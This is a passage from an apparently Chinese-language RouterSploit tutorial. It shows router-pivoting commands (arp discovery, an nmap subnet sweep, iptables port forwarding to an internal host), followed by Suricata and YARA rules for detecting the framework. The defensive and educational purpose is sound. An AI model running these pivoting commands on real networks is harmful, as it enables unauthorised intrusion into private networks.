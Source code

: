         for cmd in commands:
            self.exploit.run(cmd)
2. 横向移动技术
bash
# 从受控路由器发现内网主机
rsf > use exploits/routers/compromised/exec
rsf (Exec) > set target 192.168.1.1
rsf (Exec) > run "arp -a"

# 扫描内网其他设备
rsf (Exec) > run "nmap -sP 192.168.1.0/24"

# 设置端口转发进行内网渗透
rsf (Exec) > run "iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 192.168.1.50:80"
十七、蓝队防御检测规则
1. Suricata 检测规则
text
# 检测 RouterSploit 扫描活动
alert http any any -> $HOME_NET any (\
    msg:"ROUTERSPLOIT - Possible Autopwn Scan"; \
    flow:established,to_server; \
    http.uri; content:"/autopwn"; nocase; \
    classtype:web-application-attack; \
    sid:1000001; rev:1;)

# 检测常见漏洞利用尝试
alert http any any -> $HOME_NET any (\
    msg:"ROUTERSPLOIT - Command Injection Attempt"; \
    flow:established,to_server; \
    http.uri; content:".cgi"; \
    http.request_body; content:"|3b|"; content:"id"; distance:0; \
    classtype:web-application-attack; \
    sid:1000002; rev:1;)
2. YARA 规则检测内存中的 RouterSploit
text
rule RouterSploit_Detection {
    meta:
        description = "Detects RouterSploit framework in memory"
        author = "Blue Team"
        date = "2024-01-01"
    
    strings:
        $rsf1 = "routersploit" ascii wide
        $rsf2 = "OptIP" ascii wide
        $rsf3 = "OptPort" ascii wide
        $rsf4 = "scanners/autopwn" ascii wide
    